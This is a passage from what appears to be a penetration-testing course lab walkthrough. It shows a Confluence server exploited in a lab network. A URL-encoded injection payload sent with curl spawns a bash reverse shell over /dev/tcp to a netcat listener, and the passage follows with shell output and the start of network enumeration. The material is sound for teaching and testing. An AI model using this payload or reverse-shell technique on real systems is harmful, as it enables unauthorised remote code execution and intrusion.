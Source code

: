 > Listing 3 - The modified payload.

Now that our payload is customized for our use, we can start a [_Netcat_](https://en.wikipedia.org/wiki/Netcat) listener on our Kali machine on TCP port 4444.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

> Listing 4 - Starting Netcat listener on port 4444 on our Kali machine.

With our listener running, we'll open another shell on our Kali machine, then run the **curl** command we just constructed.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 5 - Executing the modified reverse shell payload.

The command itself doesn't return anything, but the reverse shell is caught by our listener.

```
...
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```

> Listing 6 - Bash reverse shell caught by our Netcat listener, and confirmed with the id command.

The **id** command confirms that this shell is running with the privileges of the _confluence_ user. This user has quite limited privileges. Regardless, we now have a reverse shell from CONFLUENCE01 to our Kali machine.

We can now start some light enumeration of CONFLUENCE01 using our new shell. We'll check the network interfaces using **ip addr**.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
```